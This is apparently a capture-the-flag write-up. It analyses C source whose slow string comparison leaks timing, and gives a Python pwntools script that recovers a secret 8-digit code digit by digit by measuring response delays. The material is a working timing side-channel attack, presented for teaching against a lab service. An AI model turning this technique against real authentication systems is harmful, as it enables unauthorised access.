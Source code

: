 # Writeup

## Analysis

Let's begin by reviewing the C source code for the challenge:

```c
int main(void) {
    // Disable buffering.
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    // Generate a random 8-digit code.
    char code[9];
    for (int i = 0; i < sizeof(code) - 1; i++) {
        do {
            getrandom(&code[i], sizeof(code[i]), 0);
        } while (code[i] < '0' || code[i] > '9');
    }
    code[sizeof(code) - 1] = '\x00';
```

The program starts by disabling buffering (standard stuff to make `socat` work smoothly) and then generates a random 8-digit code. This is done using `getrandom` and discarding characters that aren't between `0` and `9`. A null byte is added to the end to terminate the string.

`getrandom` is cryptographically secure and there is no distribution bias so the code is truly random.

```c
    // Load the flag.
    char flag[64];
    FILE *file = fopen("flag.txt", "r");
    fgets(flag, sizeof(flag), file);
    flag[strcspn(flag, "\r\n")] = '\x00';
    fclose(file);
```

Now the program loads the flag from `flag.txt` and removes any newline characters

```c
    char attempt[64];
    while (1) {
        printf("Enter the code: ");
        fgets(attempt, sizeof(attempt), stdin);
        attempt[strcspn(attempt, "\r\n")] = '\x00';

        if (strcmp_slow(code, attempt) == 0) {
            printf("Correct! Here is the flag: %s.\n", flag);
            break;
        } else {
            puts("Wrong :(");
        }
    }

    return 0;
}
```

The program then enters an infinite loop. It asks the user for the code and stores their input in `attempt`. `attempt` is then compared to `code` using `strcmp_slow`; if they are equal then the flag is outputted and the program exits, otherwise the loop continues.

Again, there doesn't seem to be any obvious vulnerability here. The `strcmp_slow` is custom however so perhaps the issue lies there:

```c
int strcmp_slow(char *str1, char *str2) {
    // A slow comparason to stop people brute-forcing.
    while (1) {
        sleep(1);

        if (*str1 != *str2) {
            return *str1 > *str2 ? 1 : -1;
        }

        if (*str1 == '\x00') {
            return 0;
        }

        str1++;
        str2++;
    }
}
```

This looks like a fairly generic `strcmp` implementation. Characters are compared until they are not equal, at which point `1` or `-1` is returned depending on which character is greater. If a null byte is reached before this point then a `0` is returned, indicating that the strings are equal.

The big difference here is that the program sleeps for a second every loop iteration which makes the program vulnerable to a timing attack. Say for example that the code is `12345678`. If you guessed `00000000` then there would be a 1 second delay in getting the response as the first characters don't match. If however you guessed `10000000`, the delay would be 2 seconds which reveals that we have got the first character correct. We can repeat this process to get all characters.

## Solution

We will be using `pwn.remote` from Pwntools to interact with the server. You can find more information about Pwntools in the `bof4` writeup.

Let's start by writing a function to time how long a code takes to process. To do this we just need to record the time, send the code, wait for a response and record the time again. The difference between the times give the processing time:

```python
def attempt(data):
    io.recvuntil("Enter the code: ")
    start = time()
    io.sendline(data)
    io.recvuntil("Wrong :(")
    return time() - start
```

Now we need to write a loop to work out the code. In each iteration we will first establish a threshold time by attempting the recovered digits plus a character that is definitely incorrect (a non-digit). Following this we will attempt every digit; if the time is more than half a second longer than the threshold then we know that the digit digit is correct and can add it to the known digits.

If we try every digit and none produce the required time then we have got the last digit wrong (due to dropped packets) and should remove it before starting the loop again. If we receive an EOF error then the program has exited so we can enter interactive mode to get the flag.

Here is the loop:

```python
code = ""
while True:
    threshold = attempt(code + "#") + 0.5
    for character in digits:
        try:
            if attempt(code + character) > threshold:
                code += character
                print(code)
                break
        except EOFError:
            io.interactive()
            exit()
    else:
        code = code[:-1]
        print(code)
```

In under 10 minutes the code is cracked and the flag is recovered.

The full script can be found in `solve.py`.
